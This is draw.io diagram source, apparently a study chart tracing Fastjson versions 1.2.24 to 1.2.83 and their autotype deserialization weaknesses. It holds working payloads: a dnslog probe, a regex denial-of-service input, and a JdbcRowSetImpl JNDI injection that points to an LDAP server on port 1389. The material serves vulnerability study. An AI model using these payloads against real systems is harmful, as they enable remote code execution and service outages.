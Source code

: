 <mxfile version="24.2.0" type="github">
  <diagram name="第 1 页" id="BrHA03G-W_aIONTmGHqB">
    <mxGraphModel dx="2138" dy="1244" grid="1" gridSize="20" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="4681" pageHeight="3300" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-51" value="dnslog payload&lt;div style=&quot;font-size: 14px;&quot;&gt;&lt;div style=&quot;background-color: rgb(255, 255, 255); font-family: Consolas, &amp;quot;Courier New&amp;quot;, monospace; font-size: 14px; line-height: 19px; white-space-collapse: preserve;&quot;&gt;{&lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;zero&quot;&lt;/span&gt;:{&lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;@type&quot;&lt;/span&gt;:&lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;java.net.Inet4Address&quot;&lt;/span&gt;,&lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;val&quot;&lt;/span&gt;:&lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;dnslog.com&quot;&lt;/span&gt;}}&lt;/div&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;labelBackgroundColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1300" y="900" width="500" height="60" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-65" value="autotype默认禁用" style="text;html=1;align=center;verticalAlign=middle;resizable=1;points=[];autosize=1;strokeColor=none;fillColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="600" y="580" width="140" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-100" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-121" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="480" y="640" as="sourcePoint" />
            <mxPoint x="2800" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-102" value="" style="endArrow=none;html=1;rounded=0;endFill=0;fontSize=14;" parent="1" target="WJFe8LfCxCwkPJLQWvTl-101" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="380" y="640" as="sourcePoint" />
            <mxPoint x="980" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-105" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=0;exitDx=0;exitDy=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-101" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="599.667" y="560" as="targetPoint" />
            <Array as="points">
              <mxPoint x="600" y="590" />
              <mxPoint x="600" y="590" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-134" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-101" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="599.667" y="760" as="targetPoint" />
            <Array as="points">
              <mxPoint x="600" y="700" />
              <mxPoint x="600" y="700" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-101" value="1.2.24" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="560" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-123" value="" style="endArrow=none;html=1;rounded=0;fontSize=14;endFill=0;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-101" target="WJFe8LfCxCwkPJLQWvTl-110" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="640" y="640" as="sourcePoint" />
            <mxPoint x="2400" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-110" value="1.2.33" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="740" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-124" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-110" target="WJFe8LfCxCwkPJLQWvTl-112" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="830" y="640" as="sourcePoint" />
            <mxPoint x="2400" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-143" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-112" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="959.667" y="820" as="targetPoint" />
            <Array as="points">
              <mxPoint x="960" y="720" />
              <mxPoint x="960" y="720" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-112" value="1.2.36" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="920" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-125" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-166" target="WJFe8LfCxCwkPJLQWvTl-116" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1020" y="640" as="sourcePoint" />
            <mxPoint x="2400" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-116" value="1.2.47" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1640" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-126" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-112" target="WJFe8LfCxCwkPJLQWvTl-113" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1020" y="640" as="sourcePoint" />
            <mxPoint x="1420" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-113" value="1.2.41" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1100" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-129" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-113" target="WJFe8LfCxCwkPJLQWvTl-115" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1180" y="640" as="sourcePoint" />
            <mxPoint x="1730" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-115" value="1.2.44" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1280" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-130" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-116" target="WJFe8LfCxCwkPJLQWvTl-118" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1720" y="640" as="sourcePoint" />
            <mxPoint x="2580" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="6waAEHE7Pi9td4LNbUZB-1" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="WJFe8LfCxCwkPJLQWvTl-118">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1859.667" y="820" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-118" value="1.2.62" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1820" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-131" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-169" target="WJFe8LfCxCwkPJLQWvTl-119" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1880" y="640" as="sourcePoint" />
            <mxPoint x="2580" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-119" value="1.2.72" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="2260" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-132" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-119" target="WJFe8LfCxCwkPJLQWvTl-122" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="2340" y="640" as="sourcePoint" />
            <mxPoint x="2860" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-122" value="1.2.80" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="2440" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-133" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-122" target="WJFe8LfCxCwkPJLQWvTl-121" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="2520" y="640" as="sourcePoint" />
            <mxPoint x="2860" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-168" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-121" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="2659.667" y="940" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-121" value="1.2.83" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="2620" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-136" value="未限制autotype" style="text;html=1;align=center;verticalAlign=middle;resizable=1;points=[];autosize=1;strokeColor=none;fillColor=none;labelBackgroundColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="470" y="580" width="140" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-145" value="" style="endArrow=classic;html=1;rounded=0;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-150" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="960" y="800" as="sourcePoint" />
            <mxPoint x="1860" y="800" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-147" value="&lt;div style=&quot;font-family: Consolas, &amp;quot;Courier New&amp;quot;, monospace; font-size: 14px; letter-spacing: 0.544px; white-space: pre;&quot;&gt;{&lt;/div&gt;&lt;div style=&quot;font-family: Consolas, &amp;quot;Courier New&amp;quot;, monospace; font-size: 14px; letter-spacing: 0.544px; white-space: pre;&quot;&gt;&amp;nbsp; &amp;nbsp; &lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;regex&quot;&lt;/span&gt;:{&lt;/div&gt;&lt;div style=&quot;font-family: Consolas, &amp;quot;Courier New&amp;quot;, monospace; font-size: 14px; letter-spacing: 0.544px; white-space: pre;&quot;&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;$ref&quot;&lt;/span&gt;:&lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;$[blue rlike &#39;^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$&#39;]&quot;&lt;/span&gt;&lt;/div&gt;&lt;div style=&quot;font-family: Consolas, &amp;quot;Courier New&amp;quot;, monospace; font-size: 14px; letter-spacing: 0.544px; white-space: pre;&quot;&gt;&amp;nbsp; &amp;nbsp; },&lt;/div&gt;&lt;div style=&quot;font-family: Consolas, &amp;quot;Courier New&amp;quot;, monospace; font-size: 14px; letter-spacing: 0.544px; white-space: pre;&quot;&gt;&amp;nbsp; &amp;nbsp; &lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;blue&quot;&lt;/span&gt;:&lt;span style=&quot;color: rgb(163, 21, 21); font-size: 14px;&quot;&gt;&quot;aaaaaaaaaaaaaaaaaaaaaaaaaaaa!&quot;&lt;/span&gt;&lt;/div&gt;&lt;div style=&quot;font-family: Consolas, &amp;quot;Courier New&amp;quot;, monospace; font-size: 14px; letter-spacing: 0.544px; white-space: pre;&quot;&gt;}&lt;/div&gt;" style="whiteSpace=wrap;html=1;labelBackgroundColor=none;fontSize=14;align=left;" parent="1" vertex="1">
          <mxGeometry x="990" y="1330" width="580" height="120" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-151" value="" style="endArrow=none;html=1;rounded=0;endFill=0;" parent="1" target="WJFe8LfCxCwkPJLQWvTl-150" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="960" y="800" as="sourcePoint" />
            <mxPoint x="1660" y="800" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-154" style="edgeStyle=orthogonalEdgeStyle;rounded=1;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;dashed=1;curved=0;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-150" target="WJFe8LfCxCwkPJLQWvTl-147" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="1400" y="860" />
              <mxPoint x="1260" y="860" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-150" value="正则DDOS" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1360" y="780" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-164" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.4;exitY=0.5;exitDx=0;exitDy=0;exitPerimeter=0;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-158" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="2660" y="880" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="6waAEHE7Pi9td4LNbUZB-9" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.1;exitY=0.5;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="6waAEHE7Pi9td4LNbUZB-11">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="600" y="700" as="targetPoint" />
            <Array as="points">
              <mxPoint x="480" y="700" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-158" value="" style="line;strokeWidth=2;direction=south;html=1;points=[[0,0.5,0,0,0],[0.1,0.5,0,0,0],[0.2,0.5,0,0,0],[0.3,0.5,0,0,0],[0.4,0.5,0,0,0],[0.5,0.5,0,0,0],[0.6,0.5,0,0,0],[0.7,0.5,0,0,0],[0.8,0.5,0,0,0],[0.9,0.5,0,0,0],[1,0.5,0,0,0]];dashed=1;dashPattern=1 4;" parent="1" vertex="1">
          <mxGeometry x="380" y="640" width="38" height="600" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-167" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-115" target="WJFe8LfCxCwkPJLQWvTl-166" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1360" y="640" as="sourcePoint" />
            <mxPoint x="1760" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-166" value="1.2.45" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1460" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-170" value="" style="endArrow=classic;html=1;rounded=0;fontSize=14;" parent="1" source="WJFe8LfCxCwkPJLQWvTl-118" target="WJFe8LfCxCwkPJLQWvTl-169" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1880" y="640" as="sourcePoint" />
            <mxPoint x="2120" y="640" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="6waAEHE7Pi9td4LNbUZB-2" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="WJFe8LfCxCwkPJLQWvTl-169">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="2039.667" y="560" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WJFe8LfCxCwkPJLQWvTl-169" value="1.2.68" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="2000" y="620" width="80" height="40" as="geometry" />
        </mxCell>
        <mxCell id="6waAEHE7Pi9td4LNbUZB-6" value="java.lang.Runnable、java.lang.Readable、java.lang.AutoCloseable&lt;div&gt;加入黑名单&lt;/div&gt;" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" vertex="1" parent="1">
          <mxGeometry x="2060" y="540" width="160" height="80" as="geometry" />
        </mxCell>
        <mxCell id="6waAEHE7Pi9td4LNbUZB-8" value="&lt;div style=&quot;font-family: Consolas, &amp;quot;Courier New&amp;quot;, monospace; font-size: 14px; letter-spacing: 0.544px; white-space: pre;&quot;&gt;&lt;div style=&quot;letter-spacing: normal;&quot;&gt;&lt;div style=&quot;background-color: rgb(255, 255, 255); line-height: 19px;&quot;&gt;&lt;div&gt;{&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &lt;span style=&quot;color: #a31515;&quot;&gt;&quot;b&quot;&lt;/span&gt;:{&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &lt;span style=&quot;color: #a31515;&quot;&gt;&quot;@type&quot;&lt;/span&gt;:&lt;span style=&quot;color: #a31515;&quot;&gt;&quot;Lcom.sun.rowset.JdbcRowSetImpl;&quot;&lt;/span&gt;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &lt;span style=&quot;color: #a31515;&quot;&gt;&quot;dataSourceName&quot;&lt;/span&gt;:&lt;span style=&quot;color: #a31515;&quot;&gt;&quot;ldap://10.0.0.10:1389/srajuc&quot;&lt;/span&gt;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &lt;span style=&quot;color: #a31515;&quot;&gt;&quot;autoCommit&quot;&lt;/span&gt;: &lt;span style=&quot;color: #a31515;&quot;&gt;&quot;false&quot;&lt;/span&gt;&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp;}&lt;/div&gt;&lt;div&gt;}&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;labelBackgroundColor=none;fontSize=14;align=left;" vertex="1" parent="1">
          <mxGeometry x="300" y="1320" width="580" height="140" as="geometry" />
        </mxCell>
        <mxCell id="6waAEHE7Pi9td4LNbUZB-13" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.1;exitY=0.5;exitDx=0;exitDy=0;exitPerimeter=0;endArrow=none;endFill=0;" edge="1" parent="1" source="WJFe8LfCxCwkPJLQWvTl-158" target="6waAEHE7Pi9td4LNbUZB-11">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="600" y="700" as="targetPoint" />
            <mxPoint x="399" y="700" as="sourcePoint" />
            <Array as="points" />
          </mxGeometry>
        </mxCell>
        <mxCell id="6waAEHE7Pi9td4LNbUZB-14" style="edgeStyle=orthogonalEdgeStyle;rounded=1;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;dashed=1;curved=0;" edge="1" parent="1" source="6waAEHE7Pi9td4LNbUZB-11" target="6waAEHE7Pi9td4LNbUZB-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="6waAEHE7Pi9td4LNbUZB-11" value="payload" style="whiteSpace=wrap;html=1;fillColor=default;strokeColor=none;fontSize=14;" vertex="1" parent="1">
          <mxGeometry x="460" y="680" width="80" height="40" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
